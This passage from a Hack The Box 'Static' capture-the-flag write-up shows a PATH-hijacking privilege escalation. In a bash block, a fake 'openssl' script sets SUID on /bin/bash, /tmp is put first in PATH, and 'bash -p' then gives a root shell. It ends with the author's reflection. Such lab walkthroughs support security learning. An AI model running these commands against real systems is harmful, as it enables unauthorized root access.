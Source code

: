 To exploit the **Path Hijacking** vulnerability, I just need to create a malicious binary, in this case `openssl`, which will give **SUID** permissions to `bash`. Then I modify the **PATH** of the **PKI** host to take `/tmp` as the priority directory, so that when I run `ersatool`, it will look for the binaries it needs first in this directory. I can observe with `pspy` the moment when the `bash` is given the **SUID** permission, and then I can run `bash -p` to get a shell as its owner, `root`. Finally I see the last flag and rooted box.

```bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > openssl
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
ls -l /bin/bash

ersatool

ls -l /bin/bash
bash -p
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_105.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_106.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_107.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_108.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

> I must admit that this was the first **Hack The Box** that I had to seek a lot of help from the community to be able to rooted it, but it brings a huge satisfaction with each step that I advance and I'm breaking it. The knowledge that I am acquiring is fundamental to be able to face other labs, now it is time to perhaps face a box of a more advanced level, I just have to kill the box with **htbExplorer** and continue.

```bash
./htbExplorer -k Static
```
